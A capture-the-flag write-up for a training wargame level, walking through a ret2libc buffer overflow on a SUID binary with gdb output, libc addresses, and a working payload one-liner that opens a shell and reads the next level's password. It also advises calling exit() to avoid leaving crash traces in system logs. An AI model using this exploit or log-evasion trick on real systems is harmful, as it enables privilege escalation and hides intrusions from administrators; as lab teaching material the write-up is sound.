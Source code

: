 # Level 1

## Vulnerability

Ret2Libc Attack

## Context

We find a binary with owner ```level02``` and SUID.
```
level01@OverRide:~$ ls -l
-rwsr-s---+ 1 level02 users 7360 Sep 10  2016 level01
```

When run, we see it prompts for a username (and probably later, a password).
```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: POTUS
verifying username....

nope, incorrect username...
```

## Solution

### main() overview
Let's take a deeper look at the program.
See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level01/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

First ```main()``` prompts for a username and password, reading from stdin with ```fgets()```, and then calling ```verify_user_name()``` and ```verify_user_pass()```.

In each case, user input for username and password is compared with a hard value in memory and jumps to exit if not equal. 

In ```verify_user_name()```, we see that the username must be "dat_wil".

In ```verify_user_pass()```, we see that the password must be "admin".

However, when we try these values the program still quits. 
```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```

### Exploit

First off, we can identify a vulnerability with ```fgets()``` to trigger a buffer overflow. 

Using our trusty [pattern generator and EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we crash the program and find we can overwrite the EIP at offset 80.
```
(gdb) r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

In the previous project, [Rainfall](https://github.com/anyashuka/Rainfall), our strategy was to copy shellcode to the stack and jump to it (a classic stack-based buffer overflow). 

We've found a more elegant solution to use here: a ret2libc ("return-to-libc") attack, which will overwrite the EIP return address with a particular libc function address directly. 

In this case, we''re going to overwrite the EIP with the address of ```system```, "/bin/sh", and ```exit()```.
Let's find those addresses. 
```
(gdb) b *main
Breakpoint 1 at 0x80484d0

(gdb) r
Starting program: /home/users/level01/level01

Breakpoint 1, 0x080484d0 in main ()

(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```
Ok, here are our addresses:
- ```system()``` is at 0xf7e6aed0
- ```exit()``` is at 0xf7e5eb70
- "/bin/sh" is at 0xf7f897ec
Note: we will flip these for little endian!

Why bother add the ```exit()```? Because if we don't, then the shell will segfault upon exit – which will be recorded in the dmesg logs and visible to any system admin who looks... So basically, to erase our footsteps! 

### Build exploit

Let's build our attack payload:

[ 80 x "A" ] [ address of system ] [ address of exit ] [ address of "/bin/sh" ]

```
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' ; cat -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

